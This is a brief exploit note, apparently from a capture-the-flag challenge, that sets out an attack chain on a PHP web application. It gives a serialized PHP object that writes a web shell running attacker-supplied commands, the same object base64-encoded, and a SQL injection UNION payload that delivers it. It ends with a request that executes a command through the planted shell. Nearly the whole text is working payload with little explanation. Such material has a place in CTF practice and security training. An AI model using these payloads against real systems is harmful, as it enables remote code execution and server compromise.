 Admin Object Model:
O:+10:"AdminModel":2:{s:8:"filename";s:14:"/www/shell.php";s:10:"logcontent";s:30:"<?php system($_GET['cmd']); ?>";}

b64-encoded:
TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30=

SQL Injection
-1 UNION SELECT 0 AS id, 'abhi' as name, 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30=' as oldvalue, 0 as price

Final Request
target.com/shell.php?cmd=/readflag
